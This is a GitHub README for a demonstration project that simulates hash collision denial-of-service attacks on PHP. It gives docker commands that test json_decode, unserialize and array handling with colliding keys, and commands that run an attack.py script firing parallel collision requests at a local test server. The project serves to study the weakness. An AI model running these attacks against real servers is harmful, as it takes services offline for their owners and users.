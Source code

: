 # Simulate Hash Collision Attack on a PHP Server

[![](https://badge.imagelayers.io/dreipol/python.svg)](https://imagelayers.io/?images=lukasmartinelli/php-dos-attack:latest)

Checkout the [associated blog post](http://lukasmartinelli.ch/web/2014/11/17/php-dos-attack-revisited.html).

## How it works

PHP hashtables are vulnerable to complexity attacks. Every function
that takes external input and parses in a PHP hashtable is therefore
vulnerable to complexity attacks.

![Insert Animation](http://lukasmartinelli.ch/media/hash-collisions.gif)

## Test PHP vulnerabilities to Collision Attacks

In the directory `test` there are PHP scripts that demonstrate vulnerabilities of
functions that use the PHP map.

The file `collision_keys_small.txt` contains only 10k entries.
If you want to test out the real deal you should try these attacks
with `collision_keys.txt` (64k entries).

### Run tests

Run tests for inserting colliding keys into array:

```
docker run -it \
-v "$PWD":/usr/src/app -w /usr/src/app php:5.6-cli \
php test/array.php collision_keys.txt
```

Run tests for calling `json_decode` for JSON key-value pairs with colliding keys:

```bash
docker run -it --rm \
-v "$PWD":/usr/src/app -w /usr/src/app php:5.6-cli \
php test/json_decode.php collision_keys.txt
```

Run tests when `unserializing` an array with colliding keys:

```bash
docker run -it --rm \
-v "$PWD":/usr/src/app -w /usr/src/app php:5.6-cli \
php test/unserialize.php collision_keys.txt
```

#### Different PHP versions

Docker tags for official Docker PHP image:

- `5.4.43-cli`
- `5.5.27-cli`
- `5.6.11-cli`
- `7.0.0beta2-cli`

**Measurements:**

100 samples for each measurement on a `m1.medium` instance.

PHP Version | `array` | `json_decode` | `unserialize`
------------|---------|---------------|----------------
5.4.43      |
5.5.27      |
5.6.11      |
7.0.0beta2  |

## Plot time difference

You can generate the plot data used for the diagrams by yourself:

```bash
docker run -it --rm \
-v "$PWD":/usr/src/app -w /usr/src/app php:5.6-cli \
php plot/json_decode.php collision_keys.txt
```

![json_decode time compared for collisions](/plot/json_decode_time.png)

## Run the server

```bash
docker run -it --rm -p 8080:80 -v "$PWD"/server:/var/www/html php:5.6-apache
```

Docker will map the port `80` of the webserver to `8080`.
Therefore you can visit your site at `localhost:8080`.

## Run a Hash Collision Attack

The `attack.py` script will make parallel requests (amount can be specified with `--count`)
to a URL endpoint. It reads collisions from given text file and tries to do a
Hash collision Attack with them. You can set the attack type to either use form fields
or a json map.


Make 100 good normal requests to a fake JSON API.

```bash
docker run --rm -t lukasmartinelli/php-dos-attack \
python ./attack.py http://172.17.42.1:8080/index.php collision_keys.txt --count=100 --type=json --no-collide
```

Make 100 bad requests to a fake JSON API.

```bash
docker run --rm -t lukasmartinelli/php-dos-attack \
python ./attack.py http://172.17.42.1:8080/index.php collision_keys.txt --count=100 --type=json
```

You can also run the form based attack (which has been fixed by an Appache workaround).

```bash
docker run --rm -t lukasmartinelli/php-dos-attack \
python ./attack.py http://172.17.42.1:8080/index.php collision_keys.txt --count=100
```

